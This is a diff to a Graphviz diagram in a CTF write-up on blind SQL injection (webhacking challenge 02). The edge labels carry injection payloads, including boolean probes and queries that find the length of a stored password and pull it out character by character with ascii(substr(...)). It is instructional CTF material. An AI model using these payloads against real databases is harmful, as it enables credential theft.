

Before and after one commit to joizel/ctf_writeup: the diagram in docs/web/Blind SQL Injection/[webhacking] 02.rst, drawn with Graphviz. The commit also changed other lines of this file and 13 other files, not shown here.

```diff
--- a/docs/web/Blind SQL Injection/[webhacking] 02.rst
+++ b/docs/web/Blind SQL Injection/[webhacking] 02.rst
@@ -8,26 +7,26 @@
 .. graphviz::
 
     digraph G {
         rankdir="LR";
         node[shape="point"];
         edge[arrowhead="none"]
 
         {
             rank="same";
             "client"[shape="plaintext"];
             "client" -> step0 -> step2 -> step4 -> step6 -> step8 -> step10 -> step12;
         }
 
         {
             rank="same";
             "server"[shape="plaintext"];
             "server" -> step1 -> step3 -> step5 -> step7 -> step9 -> step11 -> step13;
         }
         step0 -> step1[label="time = '1 and 1=1'",arrowhead="normal"];
-        step3 -> step2[label="<!--2070-01-01 09:00:01-->",arrowhead="normal"];
-        step4 -> step5[label="time = '1 and 1=2'",arrowhead="normal"];
-        step7 -> step6[label="<!--2070-01-01 09:00:00-->",arrowhead="normal"];
-        step8 -> step9[label="time = 1 and (select if(length(password)>8,1,0) from FreeB0aRd)",arrowhead="normal"];
-        step10 -> step11[label="time = 1 and (select ascii(substr(password,%d,1)) from FreeB0aRd)=%d",arrowhead="normal"];
+        step3 -> step2[label="Error Page",arrowhead="normal"];
+        step4 -> step5[label="time = 1 and (select if(length(password)>8,1,0) from FreeB0aRd)",arrowhead="normal"];
+        step7 -> step6[label="Data Length",arrowhead="normal"];
+        step8 -> step9[label="time = 1 and (select ascii(substr(password,%d,1)) from FreeB0aRd)=%d",arrowhead="normal"];
+        step11 -> step10[label="Data Extract",arrowhead="normal"];
 
     }
```
